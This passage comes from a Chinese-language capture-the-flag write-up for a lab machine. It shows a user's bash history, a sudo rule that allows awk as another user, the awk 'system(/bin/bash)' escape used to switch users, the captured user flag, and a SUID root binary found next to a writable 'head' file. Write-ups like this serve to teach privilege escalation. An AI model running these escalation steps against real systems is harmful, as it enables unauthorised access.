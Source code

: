 ```bash title="/home/pmccentral/.bash_history"
ls
cd autoScripts/
ls
whoami
ll
ls
cd ..
ls
exit
ls
cd documents/
exit
```

### 尝试提权

```bash title="sudo -l"
(remote) pmccentral@laboratoryuser:/home/pmccentral$ sudo -l
[sudo] password for pmccentral:
Matching Defaults entries for pmccentral on laboratoryuser:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pmccentral may run the following commands on laboratoryuser:
    (laboratoryadmin) /usr/bin/awk
```

尝试利用 awk 实现提权

```bash
sudo -u laboratoryadmin /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

## User - laboratoryadmin

```bash
laboratoryadmin@laboratoryuser:/home/pmccentral$ whoami
laboratoryadmin
```

### flag - user

```bash
laboratoryadmin@laboratoryuser:~$ cat user.txt
flag{$udOeR$_Pr!V11E9E_I5_7En53}
```

### 尝试提权

对用户目录进行探测

```bash
laboratoryadmin@laboratoryuser:~/autoScripts$ pwd;ls -lah
/home/laboratoryadmin/autoScripts
total 32K
drwxr-xr-x 2 laboratoryadmin laboratoryadmin 4.0K Dec 18 20:16 .
drwx------ 8 laboratoryadmin laboratoryadmin 4.0K Dec 18 16:15 ..
-rwxrwxr-x 1 laboratoryadmin laboratoryadmin    8 Dec 18 20:16 head
-rwsr-xr-x 1 root            root             17K Dec 17 15:40 PMCEmployees
```
